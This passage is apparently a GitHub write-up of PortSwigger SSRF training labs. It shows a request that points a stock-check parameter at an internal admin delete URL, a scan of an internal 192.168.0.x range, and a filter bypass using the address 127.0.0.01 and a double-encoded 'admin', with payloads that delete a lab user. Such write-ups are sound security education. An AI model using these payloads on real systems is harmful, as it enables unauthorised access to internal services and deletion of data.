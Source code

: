 2. lets send it to intruder:using Numbers type for payload:0 to 255

response:
    (many 400 status code, waiting for 200 status code...burp comunity is taking forever! lets code a simple script to scan range 192.168.0.x:

(https://github.com/n1njaZ0Z/Labs_Portswigger/blob/main/SSRF/Lab:%20Basic%20SSRF%20against%20another%20back-end%20system.py)

once we have the port we can send the final request:
```htm
POST /product/stock HTTP/1.1
Host: 065406a7304f37e005aca19aacacf11f.web-security-academy.net
...

stockApi=http://192.168.0.1/admin/delete?username=carlos
```
**deleted**!


# ***3. Lab: SSRF with blacklist-based input filter***
https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter


like prevoius lab we need access to http://localhost/admin to delet carlos - but it is being blocked by a waf system. we need to bypass waf with obfuscation 

(check methods online: https://portswigger.net/web-security/reference/obfuscating-attacks-using-encodings)

obfuscated methods:
1. **127.0.0.01** - Bypassing blacklist of "127.0.0.1" with leading zero
2. **%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65** - Double encoding the word "admin"

final payload:
```htm
http://127.0.0.01/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65

```
we got admin panel! 

lets use it again with the 'delete user' link found in admin page:

/admin/delete?username=carlos


```htm
http://127.0.0.01/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65/delete?username=carlos

```
**deleted!**


# ***4. Lab: SSRF with whitelist-based input filter***
https://portswigger.net/web-security/ssrf/lab-ssrf-with-whitelist-filter

Goal:
access the admin interface at http://localhost/admin and delete carlos
